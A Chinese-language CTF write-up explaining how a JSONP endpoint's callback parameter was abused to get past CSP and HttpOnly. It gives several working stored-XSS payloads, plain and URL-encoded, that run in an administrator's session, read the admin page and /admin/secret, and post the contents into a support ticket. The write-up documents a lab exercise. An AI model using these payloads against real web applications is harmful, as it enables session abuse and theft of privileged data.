



# 内网渗透与高级社工-社交平台钓鱼-G4 WriteUp

## 分析

本题思路类似G2题。

题目提示了CSP（Content Security Policy，内容安全策略）机制和HttpOnly机制。关于CSP可参考[https://www.ruanyifeng.com/blog/2016/09/csp.html](https://www.ruanyifeng.com/blog/2016/09/csp.html)

打开网页，出现举报页面，查看主页源代码时可在最后看到代码

```javascript
<script>function showNotice(d){var e=document.getElementById("nt");if(e)e.textContent=d.text}</script><script src="/api/jsonp?callback=showNotice"></script>
```

暴露了一个jsonp接口，JSONP（JSON with Padding）接口是一种利用 HTML 的 <script> 标签不受同源策略限制的特性，来解决浏览器跨域获取数据问题的方法。

既然题目提示了同源策略，那么我们就利用JSONP接口利用其callback参数来获取flag。

## 攻击过程

构建payload：

```javascript
<script src="/api/jsonp?callback=fetch('%2Freport%2F1%2Freply'%2C%7Bmethod%3A'POST'%2Cheaders%3A%7B'Content-Type'%3A'application%2Fx-www-form-urlencoded'%7D%2Cbody%3A'body%3D'%2BencodeURIComponent(document.body.innerText)%7D)"></script>
```

即

```javascript
<script src="/api/jsonp?callback=fetch('/report/1/reply',{
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'body='+encodeURIComponent(document.body.innerText)
})"></script>
```

一会儿后可在工单1中看到新回复：



哦不，flag没有出现，让我们构建payload直接看看管理员页面的源代码：

```javascript
<script src="/api/jsonp?callback=fetch(location.href).then(r%3D%3Er.text()).then(x%3D%3Efetch('%2Freport%2F1%2Freply'%2C%7Bmethod%3A'POST'%2Cheaders%3A%7B'Content-Type'%3A'application%2Fx-www-form-urlencoded'%7D%2Cbody%3A'body%3D'%2BencodeURIComponent(x)%7D))"></script>
```

即

```javascript
<script src="/api/jsonp?callback=fetch(location.href).then(r=>r.text()).then(x=>fetch('/report/1/reply',{
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'body='+encodeURIComponent(x)
}))"></script>
```

该payload首先获取`location.href`，即管理员页面的完整URL，`fetch`利用了管理员的完整登录状态，获取管理员页面的源代码后`r=>r.text()`转为文本，最后将源代码回复到工单1中。该方式并未直接获取cookie，而是利用cookie获取别的有用信息，绕过HTTPOnly属性。



“加载内部凭据”按钮id为`vbtn`，线索仍未完整，但在代码最后引用了外部脚本`/js/verify.js`，

```javascript
<button id=vbtn class="btn ghost" style="margin-top:8px">加载内部凭据</button>
// .....
<script src="/js/verify.js"></script>
```

打开`/js/verify.js`：

```javascript
// 审核后台内部核验：点击后加载本次举报关联的内部凭据（需管理员会话）
document.addEventListener('DOMContentLoaded', function () {
  var b = document.getElementById('vbtn');
  if (!b) return;
  b.addEventListener('click', function () {
    fetch('/admin/secret').then(function (r) { return r.text(); }).then(function (t) {
      document.getElementById('vout').textContent = t;
    });
  });
});
```

我们找到了`vbtn`按钮的点击事件，点击后会向`/admin/secret`发送请求获取内部凭据。

## 最终攻击

构建最终payload，利用JSONP接口的callback参数，利用管理员会话，获取flag：

```javascript
<script src="/api/jsonp?callback=fetch('%2Fadmin%2Fsecret').then(r%3D%3Er.text()).then(x%3D%3Efetch('%2Freport%2F1%2Freply'%2C%7Bmethod%3A'POST'%2Cheaders%3A%7B'Content-Type'%3A'application%2Fx-www-form-urlencoded'%7D%2Cbody%3A'body%3D'%2BencodeURIComponent(x)%7D))"></script>
```

即

```javascript
<script src="/api/jsonp?callback=fetch('/admin/secret').then(r=>r.text()).then(x=>fetch('/report/1/reply',{
    method:'POST',
    headers:{'Content-Type':'application/x-www-form-urlencoded'},
    body:'body='+encodeURIComponent(x)
}))"></script>
```

